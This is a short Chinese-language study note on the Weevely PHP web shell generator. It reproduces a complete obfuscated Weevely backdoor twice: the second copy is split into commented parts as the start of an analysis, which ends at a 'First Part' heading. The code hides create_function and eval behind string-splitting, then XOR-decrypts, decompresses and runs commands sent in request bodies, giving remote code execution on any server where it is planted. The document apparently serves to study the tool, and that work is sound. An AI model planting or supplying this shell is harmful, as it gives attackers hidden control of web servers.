 
Last Edited: March 25, 2024 7:28 PM

# Weevely

通过weevely生成php

```php
<?php
$u='){$o8i.=$t{$i}^$k{$j8i};}8i}re8itu8irn $o;}if (@preg8i_m8iatch("/$k8ih8i(.+)$8ik8if8i/",@file_get_contents("p8ihp://8ii8';
$v='input"),$m)8i==1) 8i{@o8ib_start()8i;@eva8il8i(@gzuncompre8iss(@x(@8ibas8ie64_de8icode8i($8im[1]8i),8i$k))8i);$o=@ob_ge';
$h='t_content8is();@ob8i_end_cle8ia8in();$r=8i@ba8ise8i64_encode(@x(@gzco8impr8ies8is(8i$o),$k));prin8it(8i"$p$kh$r$kf");}';
$d=str_replace('D','','cDrDeDaDDte_fuDnction');
$k='$k)8i{$c=strlen($k)8i;$8il=st8irlen($t);$8i8i8io="";for($i=08i;$i<$l;8i){fo8ir($8ij=0;($j<$c&&$i8i<$l);8i$j+8i+,$i+8i+';
$Y='$k="88i8ic319f28";8i$kh8i="d81d1527a8i942"8i;$kf="8e98ia5c2195f5"8i;8i$p="ZnC8it8iZbYs8iDzbbdvRw";8ifunction 8ix($t,8i';
$A=str_replace('8i','',$Y.$k.$u.$v.$h);
$b=$d('',$A);$b();
?>

```

进行一点分析

```php
<?php
//第一部分：
$u='){$o8i.=$t{$i}^$k{$j8i};}8i}re8itu8irn $o;}if (@preg8i_m8iatch("/$k8ih8i(.+)$8ik8if8i/",@file_get_contents("p8ihp://8ii8';
$v='input"),$m)8i==1) 8i{@o8ib_start()8i;@eva8il8i(@gzuncompre8iss(@x(@8ibas8ie64_de8icode8i($8im[1]8i),8i$k))8i);$o=@ob_ge';
$h='t_content8is();@ob8i_end_cle8ia8in();$r=8i@ba8ise8i64_encode(@x(@gzco8impr8ies8is(8i$o),$k));prin8it(8i"$p$kh$r$kf");}';
$k='$k)8i{$c=strlen($k)8i;$8il=st8irlen($t);$8i8i8io="";for($i=08i;$i<$l;8i){fo8ir($8ij=0;($j<$c&&$i8i<$l);8i$j+8i+,$i+8i+';
$Y='$k="88i8ic319f28";8i$kh8i="d81d1527a8i942"8i;$kf="8e98ia5c2195f5"8i;8i$p="ZnC8it8iZbYs8iDzbbdvRw";8ifunction 8ix($t,8i';
$A=str_replace('8i','',$Y.$k.$u.$v.$h);

//第二部分
$d=str_replace('D','','cDrDeDaDDte_fuDnction');
$b=$d('',$A);
$b();
?>

```

# First Part
